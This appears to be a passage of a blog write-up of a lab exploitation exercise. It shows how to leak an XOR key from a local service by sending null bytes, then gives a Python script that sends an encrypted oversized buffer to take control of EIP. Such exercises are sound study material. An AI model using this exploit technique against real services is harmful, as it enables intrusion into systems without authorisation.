 **Note: We have to send 'Q' to the application, or else it will exit
without returning using the saved return-address**

We can get the key the program uses by sending 128 nullbytes & saving
the returned key, (key xor 0 = key.)

Once we have the key, if we have a equivalent encryption-algorithm on
our side, we can produce and send data that will be decrypted as a
payload. 

### Control over EIP!

{% highlight python %}
# -*- coding: utf-8 -*-
import socket, time
from struct import pack, unpack

OVERFLOW=0x14
OLEN=0x20000+OVERFLOW
LEN=128
ADDR=pack('I',0xdeadbeef)
PAYLOAD='E'+pack('I', LEN)+"\x00"*LEN
KEYBUF=[]

def cipher(message, length):
    global KEYBUF
    cipherd = []
    for i in xrange(0, length, 4):
        cipherd.append(unpack('I', message[i:i+4])[0]^KEYBUF[(i/4)%32])
    return cipherd

def main():
    global OLEN, LEN, PAYLOAD, ADDR, KEYBUF
    s = socket.create_connection(("127.0.0.1", 20002))
    s.sendall(PAYLOAD)

    # flush some garbage down the toiler (177 ascii + 4 size)
    s.recv(181, socket.MSG_WAITALL)

    key=s.recv(128, socket.MSG_WAITALL)
    KEYBUF=[unpack('I',key[i:i+4])[0] for i in range(0, 128, 4)]

    # Create a ciphered block of payload
    ENCRYPTED_PAYLOAD='E'+pack('I', OLEN)
    part=''.join(pack('I', x) for x in cipher(ADDR*32, len(ADDR*32)))
    ENCRYPTED_PAYLOAD+=part*1024+part[:OVERFLOW]

    s.sendall(ENCRYPTED_PAYLOAD+"Q")
    s.close()

if __name__ == "__main__":
    main()
{% endhighlight %}
